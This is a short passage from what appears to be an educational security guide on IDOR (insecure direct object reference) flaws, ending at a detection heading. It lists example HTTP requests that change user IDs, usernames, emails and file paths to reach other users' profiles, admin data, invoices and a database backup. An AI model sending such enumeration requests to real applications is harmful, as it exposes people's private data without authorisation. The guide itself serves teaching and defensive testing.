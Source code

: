 #### Exploitation Example
```bash
# Original request
GET /api/user/123 HTTP/1.1
Host: vulnerable-app.com
Authorization: Bearer user123_token

# IDOR exploitation
GET /api/user/124 HTTP/1.1  # Access user 124's data
GET /api/user/125 HTTP/1.1  # Access user 125's data
GET /api/user/1 HTTP/1.1    # Access admin user's data
```

### 2. 🔤 String-Based IDOR

Uses string identifiers like usernames, email addresses, or UUIDs.

#### Example Scenarios
```bash
# Username-based IDOR
GET /profile/john_doe HTTP/1.1
GET /profile/admin HTTP/1.1

# Email-based IDOR
GET /api/user/john@example.com HTTP/1.1
GET /api/user/admin@company.com HTTP/1.1

# UUID-based IDOR (if predictable)
GET /document/550e8400-e29b-41d4-a716-446655440000 HTTP/1.1
```

### 3. 📁 File-Based IDOR

Direct access to files using predictable file paths or names.

#### File Access Examples
```bash
# Document access
GET /documents/invoice_123.pdf HTTP/1.1
GET /documents/invoice_124.pdf HTTP/1.1

# Image access
GET /uploads/user123/profile.jpg HTTP/1.1
GET /uploads/user124/profile.jpg HTTP/1.1

# Backup file access
GET /backups/database_2024_01_01.sql HTTP/1.1
```

## 🔍 Detection Techniques

### 1. 🎯 Manual Detection
